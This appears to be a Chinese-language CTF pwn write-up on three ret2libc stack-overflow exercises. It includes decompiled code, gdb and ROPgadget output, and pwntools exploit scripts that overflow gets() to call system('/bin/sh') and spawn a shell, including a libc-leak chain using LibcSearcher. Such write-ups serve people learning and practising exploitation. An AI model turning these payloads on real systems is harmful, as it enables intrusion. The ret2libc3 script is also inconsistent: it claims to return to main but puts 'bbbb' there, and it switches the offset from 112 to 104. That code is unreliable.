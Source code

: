 # PWN Exercise - ret2libc

[toc]

## ret2libc1

checksec
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
伪代码：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```
### PWN
程序有system函数，有/bin/sh字符串。   

0x08048720 : /bin/sh
```
$ ROPgadget --binary ret2libc1 --string "/bin/sh"
Strings information
============================================================
0x08048720 : /bin/sh
```
0x08048460  system@plt
```
pwndbg> info function
All defined functions:

File ret2libc1.c:
19:	int main(void);
8:	void secure(void);

Non-debugging symbols:
0x080483fc  _init
0x08048430  gets@plt
0x08048440  time@plt
0x08048450  puts@plt
0x08048460  system@plt
0x08048470  __gmon_start__@plt
0x08048480  srand@plt
0x08048490  __libc_start_main@plt
0x080484a0  setvbuf@plt
0x080484b0  rand@plt
0x080484c0  __isoc99_scanf@plt
0x080484d0  _start
0x08048500  __x86.get_pc_thunk.bx
0x08048510  deregister_tm_clones
0x08048540  register_tm_clones
0x08048580  __do_global_dtors_aux
0x080485a0  frame_dummy
0x08048690  __libc_csu_init
0x08048700  __libc_csu_fini
0x08048704  _fini
```
EXP:
```python
from pwn import *

elf = ELF('ret2libc1')
io = process(elf.path)
#gdb.attach(io,"b * 0x08048689")
system_addr = 0x08048460
bin_sh_addr = 0x08048720
payload = b'a'*0x6c +b'bbbb' +p32(system_addr) + b'cccc' + p32(bin_sh_addr)
io.sendline(payload)
io.interactive()
```

## ret2libc2

本题上一次基本一致，就是搜索不到`/bin/sh`字符串。   
所以需要办法把字符串写到变量中调用，可以查看bss段，全局变量。   
ida可以通过快捷键g，跳转到.bss。   
题预设了一个buf2全局变量，可以利用。
```
.bss:0804A080                 public buf2
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2            db 64h dup(?)
.bss:0804A080 _bss            ends
.bss:0804A080
```

### PWN

EXP:
```python
from pwn import *

elf = ELF('ret2libc2')
io = process(elf.path)
gets_addr = 0x08048460
system_addr = 0x08048490
buf2_addr = 0x0804A080
pop_ebx = 0x0804843d
#gdb.attach(io,"b * 0x080486bf")
#payload = flat(['a' * 112, gets_addr, pop_ebx, buf2_addr, system_addr, 'bbbb', buf2_addr])
payload = flat(['a' * 112, gets_addr, system_addr, buf2_addr, buf2_addr])
io.sendline(payload)
io.sendline('/bin/sh')
io.interactive()
```


## ret2libc3



伪代码：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```
在ret2libc2的基础上，system()函数也被去除掉了。   
就需要利用libc中的system(),和`/bin/sh`。   
思路：   
1. 泄露地址，计算相对地址。   
由于 libc 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址。
2. 计算system(),`/bin/sh`绝对地址
3. 执行system()

### 准备
https://github.com/lieanu/LibcSearcher
```python
from LibcSearcher import *

#第二个参数，为已泄露的实际地址,或最后12位(比如：d90)，int类型
obj = LibcSearcher("fgets", 0X7ff39014bd90)

obj.dump("system")        #system 偏移
obj.dump("str_bin_sh")    #/bin/sh 偏移
obj.dump("__libc_start_main_ret")    
```
### PWN

```python
from pwn import *
from LibcSearcher import LibcSearcher

elf = ELF('ret2libc3')
io = process(elf.path)

puts_addr = elf.plt['puts']
print('puts_plt addr:',hex(puts_addr))
libc_start_main_got_addr = elf.got['__libc_start_main']
print('__libc_start_main addr:',hex(libc_start_main_got_addr))
main_addr = elf.symbols['main']
print('main addr:',hex(main_addr))

print("1. leak libc_start_main_got addr and return to main again")

payload = flat([112*'a',puts_addr,'bbbb',libc_start_main_got_addr])
io.sendlineafter('Can you find it !?', payload)
libc_start_main_addr = u32(io.recv()[0:4])
print("libc_start_main addr:",hex(libc_start_main_addr))

print("2. get system and /bin/sh addr.")
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
print('system addr:',system_addr)
binsh_addr = libcbase + libc.dump('str_bin_sh')
print('/bin/sh string addr:',binsh_addr)

print("3. get shell")

payload = flat(['a' * 104, system_addr, 'bbbb', binsh_addr])
io.sendline(payload)
io.interactive()
```